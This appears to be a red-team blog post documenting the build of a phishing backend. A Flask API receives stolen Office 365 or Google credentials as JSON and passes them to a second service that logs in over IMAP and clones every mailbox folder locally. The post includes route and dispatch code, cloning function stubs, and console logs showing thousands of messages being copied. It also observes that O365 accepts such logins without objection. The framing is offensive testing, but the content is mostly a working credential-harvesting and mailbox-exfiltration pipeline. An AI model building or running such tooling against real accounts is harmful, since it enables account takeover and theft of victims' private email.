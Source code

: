 ```yaml
---
layout: post
title:  "SIEM for red team - IMAP O365 instant clone via flask REST API"
date:   2019-01-23 21:32:00 +0000
categories: phishing siem redteam imap flask rest api
---
```

# REST instant clone O365
From the previous post, I've said I'd use the following resources/services for this project:
* CloudFront from AWS
* Instances from digital ocean or AWS.
* Python3 scripts to deal with all rest API's
* ~~OfflineIMAP module for python~~
    * We'll use pure imaplib instead.
* MySQL to store history of traffic and events
* Prelude SIEM - To be reviewed later
* Gophish or FiercePhish

The progresses have been pushed to github but I'll detail here what I've done so far.

## Python3 scripts to deal with all rest API calls
I've created 3 python scripts
* servimap
* imapCloner
* processimap
### servimap
The servimap is the border REST API based in flask. We have two routes defined on the file.

The root:
```python
@app.route('/')
```
and the framework:
```python
@app.route('/test',methods=['POST'])
```
The methods allowed are just POST to post the stolen credentials.
### Route /test
The credentials is stolen, the web page will post json in this format:
```json
{
  "client": "The client vendor",
  "email": "user@email.address",
  "pass": "stolen password"
}
```
Example:
```json
{
  "client": "O365",
  "email": "bzeroedbrain@ret.re",
  "pass": "JustAnE@amPl3Pa$$"
}
```
Depending what client is the program will take a different path.
The path will be called a different rest api running in another server as explained in the previous post on architecture.
```python
content = request.get_json(silent=True)
c=content['client']
if(c=="O365"):
    #call O365
    requests.post("http://localhost:5010/imapO365",json=content)
elif(c=="Google"):
    #call google
    requests.post("http://localhost:5010/imapGoogle",json=content)
elif(c=="Other"):
    #call other, try to guess
    requests.post("http://localhost:5010/imapTry",json=content)
```
The remove server will be the imapCloner
### imapCloner
The imapCloner contains some routes to process the mailbox clone via IMAP.
A problem I found was google marks these connections as suspicious and OAUTH2 is the method that is supported and more secure to connect. But Microsoft Office 365 accepts these connections with no problems.

```python
#IMAP of Office 365 route
#TODO: Support THREADS. Need to return 302 or 403 to the client and continue the process on server side.
@app.route('/imapO365',methods=['POST'])
```
### processimap
This script is is just two basic functions to clone the mailbox using imaplib:
```python
def process_imap_folders(M,dir):
    #iterates the imap folders. we want dem all!
```
```python
def process_mailbox(M,dir):
    #clone copy all e-mail of that dir on mailbox M to a local dir
```
So when the /test is posted with the json, it will post to corresponding client on imapCloner.
The testclient will just receive, at the moment, "OK":
```console
➜  api-imap git:(develop) ✗ python3 testclient.py
OK
➜  api-imap git:(develop) ✗ python3 testclient.py
OK
```
The servimap will just detect this as example:
```console
➜  api-imap git:(develop) ✗ python3 servimap.py
 * Serving Flask app "servimap" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 271-507-179
127.0.0.1 - - [21/Jan/2019 00:14:03] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:15:29] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:18:48] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:43:02] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:48:55] "POST /test HTTP/1.1" 200 -
127.0.0.1 - - [21/Jan/2019 00:50:52] "POST /test HTTP/1.1" 200 -
```
And the cloner will start right away to clone the mailbox:
```console
➜  api-imap git:(develop) ✗ /usr/local/bin/python3 /Users/pushdword/ret.re/siem-rt/api-imap/imapCloner.py
 * Serving Flask app "imapCloner" (lazy loading)
 * Environment: production
   WARNING: Do not use the development server in a production environment.
   Use a production WSGI server instead.
 * Debug mode: on
 * Running on http://127.0.0.1:5010/ (Press CTRL+C to quit)
 * Restarting with stat
 * Debugger is active!
 * Debugger PIN: 271-507-179
 IMAP O365 TRIGGERED
OK
DATA:
[b'0']
OK
DATA:
[b'0']
OK
DATA:
[b'0']
OK
DATA:
[b'18971']
Writing message b'1'
Writing message b'2'
Writing message b'3'
Writing message b'4'
Writing message b'5'
(...)
```
An office 365 account was used in this test case. We'll need to fine tune this and put perhaps on the cloud :)